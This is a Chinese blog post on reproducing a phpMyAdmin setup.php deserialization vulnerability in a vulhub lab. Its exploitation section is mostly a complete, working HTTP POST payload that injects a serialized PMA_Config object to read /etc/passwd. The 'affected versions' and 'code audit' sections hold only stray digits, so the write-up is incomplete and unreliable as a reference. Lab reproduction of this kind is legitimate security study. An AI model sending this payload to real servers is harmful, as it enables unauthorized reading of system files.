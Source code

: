 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/xhds/archive/2004/01/13/12579425.html)

**目录**

*   [简介](#_label0)
*   [影响版本](#_label1)
*   [代码审计](#_label2)
*   [利用过程](#_label3)

[回到顶部](#_labelTop)

简介
--

**环境复现：**https://github.com/vulhub/vulhub

**线上平台:** 榆林学院内可使用协会内部的网络安全实验平台

phpMyAdmin 是一套开源的、基于 Web 的 MySQL 数据库管理工具

[回到顶部](#_labelTop)

影响版本
----

1 1

[回到顶部](#_labelTop)

代码审计
----

1

[回到顶部](#_labelTop)

利用过程
----

```
http://192.168.52.129:8080/scripts/setup.php

```

发送如下数据包，即可读取`/etc/passwd`

[![](http://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: \*/\*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA\_Config":1:{s:6:"source",s:11:"/etc/passwd";}

```

[![](http://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

![](https://img2020.cnblogs.com/blog/967964/202003/967964-20200327095005500-1274656986.png)